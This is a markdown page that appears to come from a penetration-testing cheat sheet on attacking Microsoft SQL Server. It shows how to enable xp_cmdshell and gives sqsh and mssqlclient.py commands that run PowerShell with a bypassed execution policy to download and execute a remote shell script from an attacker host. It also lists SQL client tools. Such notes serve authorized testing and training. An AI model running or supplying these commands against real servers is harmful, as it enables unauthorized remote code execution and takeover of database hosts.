 
### MS SQL


#### Enable xp_cmdshell

```
1> EXEC sp_configure 'show advanced options', 1
2> GO
1> RECONFIGURE
2> GO
1> EXEC sp_configure 'xp_cmdshell', 1
2> GO
1> RECONFIGURE
2> GO
1> EXEC sp_configure 'xp_cmdshell', 1
2> GO
1> xp_cmdshell 'whoami'
2> GO
```


#### sqsh

```
root@kali:$ sqsh -S 127.0.0.1 -U 'EXAMPLE\snovvcrash' -P 'Passw0rd1!'
1> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.234/shell.ps1')"
2> GO
```


#### mssqlclient.py

```
root@kali:$ mssqlclient.py EXAMPLE/snovvcrash:'Passw0rd1!'@127.0.0.1 [-windows-auth]
SQL> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.14.234/shell.ps1\")"
```


#### mssql-cli

* [github.com/dbcli/mssql-cli](https://github.com/dbcli/mssql-cli)

```
root@kali:$ python -m pip install mssql-cli
root@kali:$ mssql-cli -S 127.0.0.1 -U 'EXAMPLE\snovvcrash' -P 'Passw0rd1!'
```


#### DBeaver

* [DBeaver Community](https://dbeaver.io/)


#### DbVisualizer

* [DbVisualizer](https://www.dbvis.com/)


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)